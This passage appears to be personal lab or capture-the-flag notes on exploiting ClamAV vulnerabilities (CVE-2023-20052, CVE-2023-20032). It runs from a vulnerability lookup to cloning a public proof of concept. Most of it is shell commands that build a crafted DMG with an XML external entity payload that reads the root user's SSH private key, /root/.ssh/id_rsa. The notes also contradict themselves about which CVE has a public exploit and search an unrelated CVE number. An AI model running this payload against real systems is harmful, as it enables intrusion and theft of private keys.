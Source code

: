 Found 2 CVEs : `CVE-2023-20052`, `CVE-2023-20032`

> https://www.tenable.com/plugins/nessus/172281

![](/assets/obsidian/008075e7d45e4bc42d57021fcc3d24ce.png)

Can't find public exploit for `CVE-2023-20052`

Try `CVE-2023-20032` instead

Google : `CVE-2023-25002 github`

> https://github.com/nokn0wthing/CVE-2023-20052

```bash
git clone https://github.com/nokn0wthing/CVE-2023-20052.git
cd CVE-2023-20052
sudo docker build -t cve-2023-20052 .
sudo docker run -v $(pwd):/exploit -it cve-2023-20052 bash

genisoimage -D -V "exploit" -no-pad -r -apple -file-mode 0777 -o test.img . && dmg dmg test.img test.dmg
bbe -e 's|<!DOCTYPE plist PUBLIC "-//Apple Computer//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">|<!DOCTYPE plist [<!ENTITY xxe SYSTEM "/root/.ssh/id_rsa"> ]>|' -e 's/blkx/&xxe\;/' test.dmg -o exploit.dmg
```
